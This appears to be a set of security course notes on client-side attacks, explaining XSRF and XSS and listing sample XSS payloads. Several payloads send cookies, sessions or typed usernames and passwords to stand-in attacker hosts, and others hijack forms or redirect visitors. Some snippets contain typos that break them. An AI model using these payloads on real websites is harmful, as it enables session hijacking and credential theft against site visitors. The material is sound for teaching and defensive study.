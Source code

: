 # Red 09: Client Side Exploits

## OUTLINE
- Overview
- XSRF
- XSS

`Client-side attacks` occur when a user downloads `malicious content.` The flaw of data is reversed compared to server-side attacks: client-side attacks initiate from the victim who downloads content from the attacker.

## CLIENT SIDE ATTACK
- Attack where the connection is initiated
    - Enticed to malicious links/IM, redirection via XSS etc.

<br>

## XSRF
- Take advantage of user's trust in their browser.
- Requests to a particular website are authenticated via a cookie.

<br>

## XSS
- An `XSS` is when an attacker injects text on a site that will be presented to future clients (site visitors) as if that came directly from the origin server and is interpreted by the client as valid HTML/JS
- Can be used to:
    - Steal session data
    - Install malware
    - Redirect user to another page
    - Modify page content
- Stored XSS
    - You are able to write code that is stored, but not run, by a web server (in a database) and served to users of the website at a later point.
- Reflected XSS
    - You are able to write code that is contained within the url of a website and then that code is loaded onto a target's page/
- Testing for XSS  
     `<script>alert('XSS');</script>`
- Redirect  
    `<script>window.location = "http://myserver/";</script>`
- Defacement  
    `<script>document.body.innerHTML="Ricky Astely";</script>`
- Phishing
    ```
    <script>
    document.forms[0].onsubmit=myfunction;
    document.forms[0].btnNew.onclick=myfuntion;
    document.forms[0].action="http://myserver/phish.php";
    </script>
- Cookie Stealing
    ```
    <script>
    new Image().src="http://myserver/listen.php?cookie="+encodeURI(document.cookie);
    </script>
    ```
- Fake Login
    ```
    <script>
    username=promt('Please enter your username','');
    password=prompt('Please enter your password','');
    document.write("<umage src=\"http://myserver/listen.php?username="+username+"&password="+password+"\">");
    </script>

<br>

## CLIENT SIDE INFORMATION GATHERING
- Enumeration - What info can I gather?
    - Browser version
    - OS
    - IP
- Tools - JavaScript
    - JavaScript it the only tool available to us in the browser

<br>

## ENUMERATION - USER AGENT
    ```
    <script>
    new Image().src = 'http://fake.com/x.php?
    output=' + navigator.userAgent;
    </script>

<br>

## CLIENT SIDE EXPLOITATION
- The target needs to visits your server!!
    - You will host the exploit.
    - it is on you to get the client to visit your server
- Leverage a server you control
    - If you control a server the target frequents you can exploit from that server

<br>

## EXPLOIT - REDIRECTION
```
    <script>
    window.document.location.href='http://face.com/exploit.php';
    </script>
```

<br>

## EXPLOITATION - SESSION GRABBING
```
    <script>
        new Image().src = 'http://fake.com/x.php?
        output='+encodeURI(document.cookie);
    </script>
```

<br>

## SUMMARY
1. You are attacking the `CLIENT`, not the server
2. You have to get the target come to you